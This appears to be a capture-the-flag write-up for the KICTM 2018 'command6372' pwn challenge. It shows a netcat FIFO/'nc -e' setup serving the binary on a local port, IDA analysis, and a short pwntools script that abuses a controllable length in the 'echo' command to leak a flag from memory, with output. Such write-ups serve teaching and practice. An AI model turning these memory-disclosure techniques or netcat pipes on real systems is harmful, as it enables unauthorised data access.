









## command6372

**Category:** Exploit

**Points:** didn't remember

**Solves:** -

**Description:** 

### Write-up

The server listen at host:port (which I don't remember), and we're given one ELF x86 file named `command6372`.

## Setup enviroment

To emulate what the server behaviors, we're going to let the file listen to any port locally, which can be achieved as follow:

If you're using OpenBSD's netcat (`openbsd-netcat` in Arch package), then do as follow:

```bash
$ rm -f /tmp/f; mkfifo /tmp/f
$ while true; do cat /tmp/f | ./command6372 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f; done
```

Or else you're using traditional netcat (`gnu-netcat` in Arch package), then do as follow:

```bash
$ while true; do nc -lvp9999 -e./command6372; done
```

## Analyzing

First step is to check the ELF using `checksec`, which can be accomplished using `pwntools's checksec`.

```bash
$ pwn checksec command6372 
[*] '/home/shahril/git/KICTM-2018-CTF-Writeup/command6372/command6372'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So, the enabled protections are `NX` bit and position-independent-executable (PIE). Well, no worries, let's try to analyze the executable by using disassembler.

Opening the file with IDA (who doesn't use IDA for CTF anyway?) and trying to F5 the `main` function, below appears:



O, why....

Looking at this problem online [#1](https://reverseengineering.stackexchange.com/questions/15473/why-is-ida-call-analysis-failing) and [#2](https://www.hex-rays.com/products/decompiler/manual/failures.shtml#11), we can notice that IDA has hard time figuring out the right function signature in order to decompile the code.

To speed up things in CTF, code decompilation is important to quickly understand what the code does. So in order to fix this problem, we must look at the disassembly and deduce the correct parameters for the function.

```assembly
lea     eax, (aKictm2018Comma - 3000h)[esi] ; "KICTM2018\nCommand: "
push    eax
mov     eax, ds:(_ZSt4cout_ptr - 3000h)[esi]
push    eax
mov     ebx, esi
call    __ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc ; std::operator<<<std::char_traits<char>>(std::basic_ostream<char,std::char_traits<char>> &,char const*)
```

We have 2 `push`es and 1 `call` operation. So we're expecting this function to accept two parameters.

1) `(aKictm2018Comma - 3000h)[esi]` points to `"KICTM2018\nCommand: "`
2) while `ds:(_ZSt4cout_ptr - 3000h)[esi]` points to `cout_ptr`. You can imagine this as `stdin`

Looking at #1 reference above, it says

`Note that hexrays doesn't accept the template arguments <char> and namespace specifier std:: in a function prototype. Since changing the prototype does not rename the function you can replace the function name with any name, as long as ida considers it valid.`

So, we need to change the function's type to something else, but is still readable for us to read.



Yeayyy!

## Reading Pseudo-code



Take first input, and check if same as `0xF00DF00D`. If this checking failed, then print `Unknown command`.



Next, the program takes input from user as string. This can be treated as numeric input.
Further checking is done to check if more than 0x400, then overwrite with 0x400. This is to prevent buffer-overflow.

Next `getline` takes user-input as string, this input is considered as our command, which have two `if-else if`, which have `read` and `echo` command.

## `read` command



Copy next string after `read\x00` into `v13`. Then a loop is done to check for any dot-character, if exist then replace with 0x0.

This string next will be opened by `basic_ifstream` and its content will then be read and displayed to `stdout`.

## `echo` command



A simple content displaying is done by using `write` function. So its argument is:

`std::ostream::write(&std::cout, &aKuehtiowWasHer[5], *v12 - 5)`.

1) std::cout = where we will display our content
2) &aKuehtiowWasHer[5] = where our string pointer located
3) *v12 - 5 = how many bytes to display

## obtain the flag

For `read` command, we can do arbitrary read from server files. But the problematic case is that any dot-char will be replaced with 0x0. For example, if we have `flag.txt`, then it will be `flag\x00txt`.

But, the description of the challenge (if I remember correctly) no mention about any `flag.txt` that we need to retrieve from server.

Looking at the string inside the ELF file, we can see that there is exist below string.



We can assume that inside the server, the content of this string is different (containing real flag value).

How we can retrieve that?

As `read` reads file from file system (not from memory), so it is kinda hard for us to retrieve the value using `read`.

But, for `echo`, we can read from memory (as specified above). So, let us see where `&aKuehtiowWasHer[5]` is located.



Oh, so the address of `aKuehtiowWasHer` is in `0x00003080`, and our flag value is at `0x00003480`. 

So, to read the flag value, we need to have arbitrary-length read into `aKuehtiowWasHer`, with how much value that we want to read.

By reading more throughly, we can notice this:



So, we can control how much we want to read! 

## exploit script

```python
from pwn import *

r = remote('127.0.0.1', 9999)

r.send(p32(0xf00df00d))
r.send(p32(0x430))
r.send("echo")

r.interactive()
```

Output:

```bash
$ python2 exploit.py 
[+] Opening connection to 127.0.0.1 on port 9999: Done
[*] Switching to interactive mode
KICTM2018
Command: $ 
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00The flag is [get-this-in-a-remote-system]\x00\x00\x00\x00\x00\x00\x00$ 
[*] Got EOF while reading in interactive
```

Got it. :)